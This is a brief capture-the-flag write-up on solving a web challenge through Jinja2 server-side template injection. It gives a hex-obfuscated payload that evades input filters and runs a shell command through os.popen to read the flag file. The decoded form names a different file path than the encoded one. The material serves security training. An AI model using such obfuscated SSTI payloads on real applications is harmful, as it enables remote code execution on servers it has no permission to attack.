

# Beyond Borders

> Web - Medium

**Description**: Explore the travel blog and create your perfect travel plan. Feel free to share yours if you've got one!




The name is being printed back, this can be a hint to injection

payload `{{7*'7'}}` gives `7777777` -> SSTI with Jinja template \
several tries of payload indicated that the input is heavily sanitized

VERY Helpful [blog](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

This payload worked:

```php
{{request|attr('\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e')|attr('\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f')|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f')|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f')('os')|attr('\x70\x6f\x70\x65\x6e')('cat flag.txt')|attr('read')()}}
```

which translates to:

```php
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /challenge/flag').read() }}
```
